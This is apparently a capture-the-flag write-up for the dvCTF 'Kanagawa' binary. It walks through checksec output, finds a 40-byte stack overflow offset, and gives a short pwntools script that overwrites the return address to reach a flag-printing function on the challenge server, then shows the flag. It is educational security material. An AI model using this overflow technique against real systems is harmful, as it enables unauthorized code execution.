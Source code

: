 # Kanagawa

### Solution

We get executable file named kanagawa.
After quickly loading it in favorite disassembler and taking a quick glance at the main function, we can assume that it's a typical x86 buffer overflow.
Let's make sure there's nothing weird going on with the binary by using checksec on it:
$checksec --file=kanagawa

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH    Symbols        FORTIFY    Fortified    Fortifiable    FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   75) Symbols      No    0        2        kanagawa
```
It tells us that ASLR is disabled and there aren't any other exploit mitigations enabled as well (except NX, but it won't disturb us).

Let's go back to disassembler. Buffer size in first fgets call is 45 (44, actually, because last byte is null terminator). We can also tell that we need exactly 40 bytes of padding + 4 bytes of return address to jump to. But where should we jump? Quick look at function list reveals one named recovery_mode. It executes system("cat  ./flag"), exactly what we need! Its address is 0x804851b (no ASLR, remember?).

I used an excellent framework called pwntools to get working exploit. Here is the code:

```python
from pwn import *

context.update(arch='i386', os='linux')
#p = process('kanagawa')
p = remote('challs.dvc.tf', 4444)

payload = b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
payload += p32(0x804851b)

p.sendline(payload)
p.interactive()
```

### Flag

`dvCTF{0v3rfl0w_tsun4m1}`

#### Credits

- Writeup by [everl0stz](https://ctftime.org/user/85858)
- Solved by [everl0stz](https://ctftime.org/user/85858)
- WaletSec 2021

#### License

**CC BY 4.0** WaletSec + everl0stz
